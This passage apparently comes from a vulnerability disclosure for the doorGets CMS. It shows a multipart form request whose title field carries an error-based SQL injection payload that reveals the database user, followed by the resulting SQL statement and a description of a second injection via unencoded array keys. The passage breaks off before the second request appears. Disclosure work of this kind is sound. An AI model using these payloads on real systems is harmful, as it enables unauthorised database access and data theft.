------WebKitFormBoundarylPbmXrBulFPAjyLA
Content-Disposition: form-data; name="modulecategory_add_token"

255565cb57ab094d305.08190707
------WebKitFormBoundarylPbmXrBulFPAjyLA
Content-Disposition: form-data; name="modulecategory_add_langue"

en
------WebKitFormBoundarylPbmXrBulFPAjyLA
Content-Disposition: form-data; name="modulecategory_add_id_parent"

0
------WebKitFormBoundarylPbmXrBulFPAjyLA
Content-Disposition: form-data; name="modulecategory_add_nom"

test11\
------WebKitFormBoundarylPbmXrBulFPAjyLA
Content-Disposition: form-data; name="modulecategory_add_titre"

,(select/**/1=(updatexml(1,concat(0x5e24,(select/**/user()),0x5e24),1))),2,0x626c6f672d74657374312d656e,22,222,1,1555397447,4)#
------WebKitFormBoundarylPbmXrBulFPAjyLA
Content-Disposition: form-data; name="modulecategory_add_description"

test3
------WebKitFormBoundarylPbmXrBulFPAjyLA
Content-Disposition: form-data; name="modulecategory_add_uri"

test1
------WebKitFormBoundarylPbmXrBulFPAjyLA
Content-Disposition: form-data; name="modulecategory_add_meta_titre"

test2
------WebKitFormBoundarylPbmXrBulFPAjyLA
Content-Disposition: form-data; name="modulecategory_add_meta_description"

test3
------WebKitFormBoundarylPbmXrBulFPAjyLA
Content-Disposition: form-data; name="modulecategory_add_meta_keys"


------WebKitFormBoundarylPbmXrBulFPAjyLA
Content-Disposition: form-data; name="modulecategory_add_submit"

Save
------WebKitFormBoundarylPbmXrBulFPAjyLA--
```
The SQL statement executed by the program is:
```INSERT INTO `_categories` (`uri_module`,`ordre`,`id_parent`,`date_creation`) VALUES ("blog","17","0","1555398477");INSERT INTO `_categories_traduction` (`langue`,`nom`,`titre`,`description`,`uri`,`meta_titre`,`meta_description`,`meta_keys`,`date_creation`,`id_cat`) VALUES ("en","test11\",",(select/**/1=(updatexml(1,concat(0x5e24,(select/**/user()),0x5e24),1))),2,0x626c6f672d74657374312d656e,22,222,1,1555397447,4)#","test3","blog-test1-en","test2","test3","","1555398477","17");```

You can get the current database user through SQL injection:

![63.png](./img/63.png)


**[16]**

In \doorgets\app\requests\user\configurationRequest.php:

![64.png](./img/64.png)

Line 800 enters the case when $_GET['action']= network.
Line 808 encodes the value of the array, but does not handle the key of the array.
Line 813 directly calls the dbQU function for database query operations.

Since only the value of the array is encoded, but not for the key, the attacker can use the key of the array for SQL injection.

After the administrator logs in, replace the following cookie and request:
```